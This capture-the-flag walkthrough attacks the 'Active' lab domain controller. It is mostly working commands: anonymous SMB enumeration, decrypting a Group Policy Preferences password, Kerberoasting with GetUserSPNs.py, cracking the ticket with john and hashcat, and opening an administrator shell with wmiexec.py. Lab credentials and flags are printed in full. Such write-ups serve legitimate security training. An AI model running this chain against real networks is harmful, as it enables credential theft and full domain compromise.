

Active
This is Active Directory box, where we get to exploit a vulnerable Domain Controller.
Enumeration
Nmap
-T4: aggressive speed scan
-sC: use safe default scripts
-sV: detect service version
-p-: scan all ports
-Pn: skip host discovery
nmap -T4 -sC -sV -p- -Pn 10.10.10.100
RPC
Trying to enumerate over RPC (Remote Procedure Call), but no luck there:
rpcclient -U "" -N 10.10.10.100
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
SMB
Checking if anonymous login is allowed over SMB (Server Message Block):
smbclient -N -L 10.10.10.100
smbclient -L 10.10.10.100 --no-pass
smbmap -H 10.10.10.100
smbclient -N //10.10.10.100/Replication
This directory looks interesting:
smb: \active.htb\policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\machine\Preferences\Groups\> dir
We find credentials inside:
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
LDAP
Now we enumerate LDAP (Lightweight Directory Access Protocol), to get more information from Active Directory:
nmap -sT -Pn -n --open 10.10.10.100 -p389 --script ldap-rootdse
Exploitation
Crackmapexec
Checking SMB login for service user:
cme smb 10.10.10.100 -d dc.active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
SMB
Now we connect as service user, and explore other directories we couldn't access before:
smbclient -U "active.htb\SVC_TGS%GPPstillStandingStrong2k18" -L 10.10.10.100
Using smbmap we get more information about permissions:
smbmap -H 10.10.10.100 -u SVC_TGS -p 'GPPstillStandingStrong2k18'
Users directory looks interesting, because it's read-only and has no comments:
smbclient -U "active.htb\SVC_TGS%GPPstillStandingStrong2k18" //10.10.10.100/Users
Flag
And finally we get user flag:
smb: \SVC_TGS\Desktop\> get user.txt
getting file \SVC_TGS\Desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
696f302836e481ebf6f935c
Privilege Escalation
Kerberoasting
Since this is Active Directory setup with Kerberos as authentication protocol, we can try to abuse it. There is a known technique called Kerberoast, which is actually a series of different attacks. We could use compromised service account (any user account can request tickets) that has a valid Ticket-Granting Ticket (TGT), and request more tickets from Ticket-Granting Service (TGS), for any Service Principal Name (SPN) on Domain Controller. Following figure describes how this protocol works:

If we could get TGS ticket, it could be cracked offline. We're going to request an administrator account TGS ticket. This script is used to find SPNs that are associated with a given user account:
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
Now we have TGS hash from administrator account. Hash is already in JohnTheRipper/Hashcat format, we can just copy/paste it to another file, save it, and try to crack it using dictonary attack:
john --wordlist=rockyou.txt ticket
We can use the same procedure with Hashcat:
hashcat.exe -m 13100 -a 0 ticket.txt rockyou.txt --force -O
Now that we have cracked administrator password, we can connect to server remotely:
wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
Flag
And we got administrator flag:
C:\users\administrator\desktop>type root.txt
15295e8aca408c4ff3cb8adb9195ea49